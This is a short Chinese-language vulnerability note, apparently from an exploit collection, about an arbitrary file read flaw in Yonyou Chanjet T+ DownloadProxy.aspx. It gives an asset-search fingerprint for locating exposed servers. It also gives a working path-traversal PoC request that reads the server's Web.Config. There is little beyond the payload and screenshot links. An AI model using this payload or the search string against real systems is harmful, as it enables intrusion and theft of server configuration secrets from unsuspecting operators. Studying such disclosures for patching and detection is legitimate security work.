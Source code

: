 # 用友 畅捷通T+ DownloadProxy.aspx 任意文件读取漏洞

## 漏洞描述

用友 畅捷通T+ DownloadProxy.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-20220903111940237.png)

验证POC

```php
/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

![img](../../../.vuepress/public/img/1662017739558-82948854-e961-4934-8ac2-c29e660277b2.png)